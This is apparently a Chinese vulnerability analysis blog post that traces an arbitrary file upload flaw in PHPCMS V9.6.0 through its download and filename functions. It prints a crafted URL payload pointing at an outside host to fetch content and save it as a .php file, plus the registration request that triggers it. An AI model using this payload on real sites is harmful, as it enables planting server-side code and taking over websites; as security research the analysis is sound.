







@Author：Y4tacker

@time：2021/02/21 14:23 PM


# PHPCMSV9.6.0任意文件上传漏洞

## 利用点分析

首先先定位到利用点`phpcms/libs/classes/attachment.class.php`中的`download`函数，定位利用的几个关键函数



首先第一个`new_stripslashes`函数，比较简单也就是对去`stripslashes`函数的简单封装，支持处理数组而已，作用是删除一个反斜杠

接下来的正则匹配则是匹配形如`src="任意字符.ext"`没有引号也可以，主要是后缀名限定了是`gif|jpg|jpeg|bmp|png`，`$matches[3]`为匹配到的网址也就是src/href=后面的链接，然后有个`fillurl`进行处理，主要是对url进行一些简单的规范化处理，去除#之后的内容等等以及添加http前缀等，可以自行阅读函数实现

接下来看看`fileext`函数，作用是取得后缀名并返回



之后`getname`函数会把这个后缀作为参数传入，返回一个可爆破的文件名



然后执行`$upload_func($file, $newfile)`从这个类的`__construct()`方法当中不难得出是copy函数

那么如果我们构造`src=http://kk.com/1.txt?.php#.jpg`，jpg后缀通过了正则，之后经过`fillurl`则变为`http://kk.com/1.txt?.php`，接下来`fileext`函数中取得后缀是php，这个函数内部用的是`strrchr`(查找字符串在另一个字符串中最后一次出现的位置，并返回从该位置到字符串结尾的所有字符)，接下来再经过getname就会返回一个php后缀的文件，里面的内容则是`http://kk.com/1.txt`当中的内容，

有了构造思路后我们就可以取看哪里调用了这个函数，我没找到好用的，之后根据payload的调用发现在`caches/caches_model/caches_data/member_input.class.php`下有一个`editor`方法它恰好调用了，那么如何调用editor？？在这里我陷入了困境，不过至少我们已经分析出了最后的利用流程，现在老老实实去正向跟着payload调试学习吧

## 根据payload调试分析

post数据

```php
网址
http://kk.com/index.php?m=member&c=index&a=register&siteid=1&XDEBUG_SESSION_START=17518
数据包
siteid=1&modelid=11&username=bb2454&password=123456&email=gyar2217@qq.com&info[content]=&dosubmit=1&protocol=
```

在register函数当中，前面是一些配置的获取，我们直接看下关键函数


我们进入`new member_input()`，是从数据库`v9_model_field`取得一些配置信息，这是关键，而`$modelid`的值是11关乎到我们后面是否能调用editor方法



之后我们进入`member_input->get`方法，它会调用editor方法



之后就进入了我们第一个情况中说明的`download`方法，从而执行了任意文件的下载


来填个坑，上面说的是从数据库里面获取的，我发现并不是，他是从`caches\caches_model\caches_data`目录下读取的，我被网上误导了似乎，这波草率了



测试了下果然是这样的，因此`$this->fields`的值就是从这个文件当中读取的



既然有获取那就有生成，经过调试发现生成是在后台管理员登陆以后进行的，分析完毕